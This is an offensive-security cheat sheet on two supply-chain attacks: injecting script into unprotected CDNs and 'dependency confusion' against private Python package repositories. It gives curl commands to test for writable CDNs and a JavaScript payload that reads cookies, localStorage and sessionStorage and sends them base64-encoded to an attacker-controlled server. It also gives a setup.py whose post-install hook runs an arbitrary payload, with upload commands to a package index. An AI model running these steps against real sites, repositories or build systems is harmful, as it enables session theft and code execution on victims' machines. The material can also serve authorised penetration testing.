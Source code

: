 # Dependency Injection

## Unprotected CDNs

If the web application uses a third party server to retrieve resources such as scripts it is possible to attack the CDN and inject malicious code that is then executed in the page.&#x20;

Identify the CDN server by reviewing the requests sent by the page. This can be done easily in the Network tab of the browser's development tool.

### Verify server vulnerability

Use the following requests to verify if the CDN supports unauthenticated writing via PUT or POST methods

#### Options request

```
curl -i -X OPTIONS <url>
curl -i --request-target "*" -X OPTIONS <base url>
```

#### test unrestricted file upload

```
#PUT
curl -X PUT <url>/test.js -d "test"

#POST
curl -X POST <url> -d @<path to file>
curl -X POST <url> -F @<path to file>               #as form encoded
curl -X POST <url> --data-binary @<path to file>    #use this if file is corrupted
```

### Code injection

Start local server

```
python -m http.server <PORT>
python -m SimpleHttpServer
```

Useful functions to extract data

```
document.cookie;
document.getElementById('<field>').value;
JSON.stringify(localStorage);
JSON.stringify(sessionStorage);
```

Payload to send data to our server

```
var req = new XMLHttpRequest();
var data = <code here>;
var data_encoded = btoa(unescape(encodeURIComponent(data)));
req.open('GET','<URL>:<PORT>/data:'+data_encoded,true); 
red.send();       
```

PUT request to replace resource with one containing our payload

```
curl -T <local file> http://<url>/<remote file>
```

## Dependency confusion

This vulnerability arises when an application uses an internal package that is managed by a private repository. If we can upload our own package to the repository, during build time the python package manager will find duplicate packages and will pick the one with the latest version (this is why we upload a package with v9000 as version). This allows us to inject malicious code in the installer that will be executed by the package manager after retrieving our malicious package.

### Package structure

Create standard python package structure

```
package = '<package>' && \
mkdir "$package" && \
touch "${package}/__init__.py" && \
echo -e '#!/usr/bin/python3\ndef main():\n\tpass\n\nif __name__=="__main__":\n\tmain()' > "${package}/main.py" && \
touch "${package}/setup.py"
```

Configure setup.py

```
from setuptools import find_packages
from setuptools import setup
from setuptools.command.install import install
import os
import sys

PACKAGE_NAME = '<PACKAGE>'
VERSION = 'v9000.9.9'
URL = 'http://github.com/{}'.format(PACKAGE_NAME)

class PostInstallCommand(install):
     def run(self):
         install.run(self)
         os.system('<PAYLOAD>')

setup(
        name=PACKAGE_NAME,
        url=URL,
        download_url='{}/archive/{}.tar.gz'.format(URL,VERSION),
        author='John Doe',
        author_email='real@email.com',
        version=VERSION,
        packages=find_packages(),
        include_package_data=True,
        license='MIT',
        description='test package',
        cmdclass={
            'install': PostInstallCommand
        },
)
```

### Compile and upload the package

Generate package and upload

```
python3 setup.py sdist
twine upload dist/<package>-9000.9.9.tar.gz --repository-url <repository url>
```

Download package for testing or to transfer the payload on another compromised machine

```
pip3 install <package> --trusted-host <repository domain> --index-url <repository url> --verbose
```
